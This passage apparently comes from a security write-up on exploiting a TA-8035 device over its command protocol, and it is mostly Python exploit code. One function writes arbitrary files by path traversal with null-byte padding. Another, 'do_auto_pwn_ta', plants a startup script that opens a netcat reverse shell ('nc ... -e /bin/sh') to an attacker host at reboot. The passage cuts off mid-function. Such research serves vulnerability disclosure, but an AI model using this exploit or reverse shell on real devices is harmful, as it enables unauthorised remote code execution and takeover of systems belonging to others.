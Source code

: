 ```python
        return True
    file = line.split(' ')[0]
    dest = line.split(' ')[1]

    if dest[0] != '/':
        dest = '/' + dest

    dest_final = "../../.." + dest + '\x00\x00\x00'

    try:
        print("[-] Creating {}".format(file))
        with open(file, 'r') as fp:
            payload = fp.read()

        # prepare data
        self.z.send_command(1500, struct.pack('<II', len(payload), len(payload))) # CMD_PREPARE_DATA
        self.z.recv_reply()

        # send data
        self.z.send_command(1501, payload.encode()) # CMD_DATA
        self.z.recv_reply()

        # apply data
        data = bytearray()
        data.extend(struct.pack('<I', 1700)) # CMD_UPDATE_FILE
        data.extend(dest_final.encode())
        self.z.send_command(110, data)
        self.z.recv_reply()

    except Exception:
        traceback.print_exc()
```
With the ability to get any file using the `CMD_READ_FILE` command, I could read the init scripts and see what to upload and where to gain remote code execution. For the TA-8035, I wrote the following "all-in-one" command to gain code execution:
```python
def do_auto_pwn_ta(self, line):
    """Writes a test.sh file to the device which will be executed and deleted at reboot by the TA device"""
    if not len(line) or len(line.split(':')) != 2:
        print("[*] Usage: write_file_pwn <LHOST:LPORT>")
        return True
    try:
        print("[-] Creating test.sh")
        payload = "(sleep 60 && nc {} -e /bin/sh)&".format(line)
        filename = "test.sh\x00"

        # prepare data
        print("[-] Preparing payload")
        self.z.send_command(1500, struct.pack('<II', len(payload), len(payload)))
        self.z.recv_reply()

        # send data
        print("[-] Sending payload")
        self.z.send_command(1501, payload.encode())
        self.z.recv_reply()

        # apply data
        print("[-] Saving payload")
        data = bytearray()
        data.extend(struct.pack('<I', 1700))
        data.extend(filename.encode())
```